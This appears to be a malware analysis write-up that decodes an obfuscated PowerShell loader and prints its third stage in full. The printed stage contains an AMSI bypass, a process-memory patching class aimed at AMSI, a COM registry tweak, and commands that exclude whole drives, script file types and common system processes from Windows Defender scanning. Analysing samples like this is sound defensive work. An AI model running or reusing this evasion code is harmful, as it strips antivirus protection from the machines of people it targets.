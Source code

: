 
The script is comprised of 3 long strings of 0s and 1s, one of these strings likely contains executable code.

I wasn't able to make much sense out of the first set of binary code ($muthal)

The secondary blob contains our binary code, which we will review further shortly.

The final blob decodes as below:

``` powershell
[Ref].("{0}" -f'Ass'+'em'+'bly').("{0}" -f'Ge'+'tT'+'ype')('System.Management.Automation.Ams'+'iUtils').("{0}" -f'Ge'+'tFi'+'eld')('am'+'siInitFailed','NonPu'+'blic,Static').("{0}" -f'Set'+'Val'+'ue')($null,$true)


New-Item -P "HKCU:\Software\Classes\CLSID\" -N "{fdb00e52-a214-4aa1-8fba-4357bb0072ec}" -F
New-Item -P "HKCU:\Software\Classes\CLSID\{fdb00e52-a214-4aa1-8fba-4357bb0072ec}\" -N "InProcServer32" -F
New-ItemProperty -Path 'HKCU:\Software\Classes\CLSID\{fdb00e52-a214-4aa1-8fba-4357bb0072ec}\InProcServer32' -N '(Default)' -V "C:\IDontExist.dll" -PropertyType String -Force
if (-not ([Type]::GetType("AMSIReaper"))) {
    Add-Type -TypeDefinition @"
    using System; using System.Diagnostics; using System.Runtime.InteropServices;
    public class AMSIReaper {
        public const int PROCESS_VM_OPERATION = 0x0008, PROCESS_VM_READ = 0x0010, PROCESS_VM_WRITE = 0x0020;
        [DllImport("kernel32.dll")] public static extern IntPtr OpenProcess(int dwDesiredAccess, bool bInheritHandle, int dwProcessId);
        [DllImport("kernel32.dll", SetLastError = true)] public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out int lpNumberOfBytesWritten);
        [DllImport("kernel32.dll")] public static extern bool CloseHandle(IntPtr hObject);
        [DllImport("kernel32.dll")] public static extern IntPtr LoadLibrary(string lpFileName);
        [DllImport("kernel32.dll")] public static extern IntPtr GetProcAddress(IntPtr hModule, string lpProcName);
    }
"@
}

function ModAMSI($processId) {
    # Function content remains the same
}

function ModAllPShells {
    # Function content remains the same
}

Write-Host "AMSI do"


$ErrorActionPreference = "SilentlyContinue" # Suppress errors globally

# Add Exclusions
$extensions = @('.ppam', '.xls', '.docx', '.vbs', '.js')
$paths = @('C:\', 'D:\', 'E:\')
$processes = @('explorer.exe', 'kernel32.dll', 'aspnet_compiler.exe', 'cvtres.exe', 'CasPol.exe', 'csc.exe', 'Msbuild.exe', 'ilasm.exe', 'InstallUtil.exe', 'jsc.exe', 'powershell.exe', 'rundll32.exe', 'conhost.exe', 'Cscript.exe', 'mshta.exe', 'cmd.exe', 'DefenderisasuckingAntivirus', 'wscript.exe')

$extensions | ForEach-Object { Add-MpPreference -ExclusionExtension $_ -ErrorAction SilentlyContinue }
$paths | ForEach-Object { Add-MpPreference -ExclusionPath $_ -ErrorAction SilentlyContinue }
$processes | ForEach-Object { Add-MpPreference -ExclusionProcess $_ -ErrorAction SilentlyContinue }

```
